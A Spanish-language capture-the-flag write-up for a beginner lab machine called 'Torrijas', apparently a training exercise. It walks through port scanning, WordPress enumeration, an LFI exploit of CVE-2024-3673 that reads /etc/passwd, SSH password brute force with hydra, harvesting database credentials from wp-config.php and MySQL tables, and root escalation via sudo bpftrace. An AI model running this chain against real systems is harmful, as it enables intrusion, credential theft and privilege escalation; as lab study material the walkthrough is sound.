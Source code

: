 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Torrijas

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.66 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH y** el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154105.png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154309.png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio **torrija.thl** en `/etc/hosts`. Tras esto realizamos un escaneo de directorios.

```
gobuster dir -u http://192.168.1.66 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt,php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 155904.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención que hay un **wordpress** por lo que indagamos más en ese directorio.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 160040.png" alt=""><figcaption></figcaption></figure>

Enumeramos los usuarios y los plugins con **WPScan**.

```
wpscan --url http://192.168.1.66/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (1266).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Encontramos un usuario pero al realizar fuerza bruta no encuentra la contraseña. Entonces realizo un enumeración de plugins de manera agresiva.

```bash
wpscan --url http://192.168.1.66/wordpress --enumerate ap --force --plugins-detection mixed
```

<figure><img src="../../.gitbook/assets/image (1267).png" alt=""><figcaption></figcaption></figure>

Buscando los dos por Internet nos llama la atención el segundo ya que se puede realizar un **LFI**.

{% embed url="https://notcve.org/view.php?id=CVE-2024-3673" %}

{% @github-files/github-code-block url="https://github.com/Nxploited/CVE-2024-3673" %}

```
python3 CVE-2024-3673.py --url http://192.168.1.66/wordpress --file ../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (1268).png" alt=""><figcaption></figcaption></figure>

Encontramos dos usuarios llamados **Primo** y **Premo** pero solo encontramos a través de fuerza bruta la contraseña de **Premo**.

```
hydra -l premo -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 64
```

<figure><img src="../../.gitbook/assets/image (1269).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales a través de SSH.

```bash
ssh premo@192.168.1.66
```

<figure><img src="../../.gitbook/assets/image (1270).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

En este caso, al estar trabajando con una instalación de **WordPress** y con el puerto **3306** (MySQL) expuesto, el siguiente paso será intentar obtener las credenciales de la base de datos. Un archivo crucial en WordPress que suele contener esta información es el `wp-config.php`.

<figure><img src="../../.gitbook/assets/image (1271).png" alt=""><figcaption></figcaption></figure>

Nos conectamos a la base de datos.

```
mysql -u admin -p
```

<figure><img src="../../.gitbook/assets/image (1272).png" alt=""><figcaption></figcaption></figure>

Indagamos que tenemos en la base de datos.

```
show databases;
use wordpress;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (1273).png" alt=""><figcaption></figcaption></figure>

Al ser la contraseña hasheada no nos sirve ya que estamos dentro pero probamos si podemos entrar en la base de datos de **root**.

```
mysql -u admin -p
show databases;
use Torrijas;
show tables;
select * from primo;
```

<figure><img src="../../.gitbook/assets/image (1274).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales.

<figure><img src="../../.gitbook/assets/image (1275).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/bpftrace/" %}

```
sudo bpftrace -c /bin/sh -e 'END {exit()}'
```

<figure><img src="../../.gitbook/assets/image (1276).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
